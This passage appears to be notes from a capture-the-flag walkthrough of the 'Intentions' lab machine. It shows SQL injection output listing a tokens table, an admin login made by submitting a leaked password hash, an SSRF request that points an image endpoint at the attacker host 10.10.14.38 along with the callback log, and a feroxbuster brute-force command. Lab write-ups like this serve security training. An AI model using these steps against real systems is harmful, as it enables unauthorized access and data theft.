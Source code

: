 ```
id,tokenable_type,tokenable_id,name,token,abilities,...
```

`(SELECT COUNT(token) from personal_access_tokens)`

```
0
```

# Auth with hashes

`/api/v2/auth/user` exists!

Let's try: `/api/v2/auth/login`

```json
{
    "status":"error",
    "errors": {
        "email": ["The email field is required."],
        "hash": ["The hash field is required."]
    }
}
```

# Admin panel

Let's try `POST /api/v2/auth/login` with:

```json
{
	"email":"greg@intentions.htb",
	"hash":"$2y$10$95OR7nHSkYuFUUxsT1KS6uoQ93aufmrpknz4jwRqzIbsUpRiiyU5m"
}
```

Now we can access `/admin`.

Image dir: `/var/www/html/intentions/storage/app/public/nature/image.jpg`

`POST /api/v2/admin/image/modify`

```json
{
    "path":"http://10.10.14.38:8000/image.png",
    "effect":"charcoal"
}
```

We get a connection back:

```
10.129.151.231 - - [03/Jul/2023 02:31:18] "GET /image.png HTTP/1.1" 404 -
```


`/opt/feroxbuster --url http://intentions.htb/api/v2/gallery/ -m POST -H 'Cookie: token=TOKEN' -w /opt/seclists/Discovery/Web-Content/raft-large-words.txt -C 404`
